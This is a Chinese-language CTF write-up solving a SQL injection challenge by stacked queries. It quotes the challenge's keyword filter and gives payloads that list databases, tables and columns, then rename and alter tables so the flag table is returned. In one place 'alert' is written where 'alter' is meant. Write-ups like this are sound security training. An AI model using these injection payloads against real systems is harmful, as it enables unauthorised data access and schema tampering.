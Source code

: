 **WP**:
> **环境**  
> windows
> 
> **工具**  
> Firefox
> 
> **步骤**  
> 先添加一个单引号，报错，错误信息如下：
> 
> ```
> error 1064 : You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''1''' at line 1  
> ```
> 
> 接着测试```--+```注释，发现被过滤，然后使用```#```注释，可行 用```order by```语句判断出有两个字段，接着使用```union select```爆字段，发现这个时候出现了如下提示：
> 
> ```php
> return preg_match("/select|update|delete|drop|insert|where|\./i",$inject);
> ```
> 
> 发现上面的关键字都被过滤不能使用了，没法进行注入，这个时候尝试一下堆叠注入
> 
> 现在回到这道题，利用堆叠注入，查询所有数据库：
> 
> ```sql
> 1';show databases;#
> ```
> 
> 查询所有表:
> 
> ```sql
> 1';show tables;#
> ```
> 
> 查询words表中所有列:
> 
> ```sql
> 1';show columns from words;#
> ```
> 
> 查询1919810931114514表中所有列
> 
> ```sql
> 1';show columns from `1919810931114514`;#      #(字符串为表名操作时要加反引号)
> ```
> 
> 根据两个表的情况结合实际查询出结果的情况判断出words是默认查询的表，因为查询出的结果是一个数字加一个字符串，words表结构是id和data，传入的inject参数也就是赋值给了id
> 
> 这道题没有禁用```rename```和```alert```，所以我们可以采用修改表结构的方法来得到flag 将words表名改为words1，再将数字名表改为words，这样数字名表就是默认查询的表了，但是它少了一个id列，可以将flag字段改为id，或者添加id字段
> 
> ```sql
> 1';rename tables `words` to `words1`;rename tables `1919810931114514` to `words`; alter table `words` change `flag` `id` varchar(100);#
> ```
> 
> 这段代码的意思是将words表名改为words1，1919810931114514表名改为words，将现在的words表中的flag列名改为id 然后用```1' or 1=1 #```得到flag
